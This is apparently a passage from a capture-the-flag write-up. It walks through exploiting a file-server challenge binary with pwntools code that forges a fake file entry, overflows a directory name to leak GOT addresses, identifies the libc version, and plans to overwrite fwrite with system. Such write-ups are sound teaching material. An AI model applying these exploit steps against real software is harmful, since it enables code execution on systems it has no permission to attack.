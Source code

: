 ```python
```

With a leak of the base address we can repeat the previous procedure to print values from the GOT and try to find the libc.

```python
prog = log.progress('Putting fake GOT entry')
got_entry  = p64(0) # parent_directory, don't care
got_entry += p32(2) # type = FILE_ENTRY
got_entry += 'got'.ljust(20, '\x00') # name
got_entry += p64(2*8) # size
got_entry += p64(base + 0x205018 + 192) # data = start of GOT + 192 (frwite entry)
put_file('got_entry', got_entry)
prog.success()

prog = log.progress('Overflowing directory (GOT)')
dirname  = 'B' * (20 + 8 + 17*8) # name + size + 17 entry*
dirname += p32(got_entry_addr) # 18th fake entry
send_cmd('mkdir ' + dirname)
prog.success()

prog = log.progress('Triggering directory reallocation (GOT)')
trunc_dirname = 'B'*20 + '\x10'
send_cmd('cd ' + trunc_dirname)
for i in range(17):
    put_file(str(i), 'A')
prog.success()

got = get_file('got')
for i in range(0, len(got), 8):
    print(hex(u64(got[i:i+8])))
```

With this snippet we can print the address of fwrite and rand, the last 2 GOT entries.

With a quick lookup in our libc database I found that we have a match with Ubuntu GLIBC 2.23-0ubuntu9 (you can found it in the attached zip file)

What's next? With the fake entry for the got that we have created before we can use put_file to overwrite the fwrite entry with system.

fwrite is used in writen and writen is called in handle_get.

```c
bool handle_get(char* path) {
  file_entry* file = find_file(path);
  if (file) {
    printf("%zu\n", file->size);
    writen(file->data, file->size); //calls fwrite(file->data, ...)
  } else {
    printf("File \"%s\" not found.\n", path);
  }

  return true;
}
```
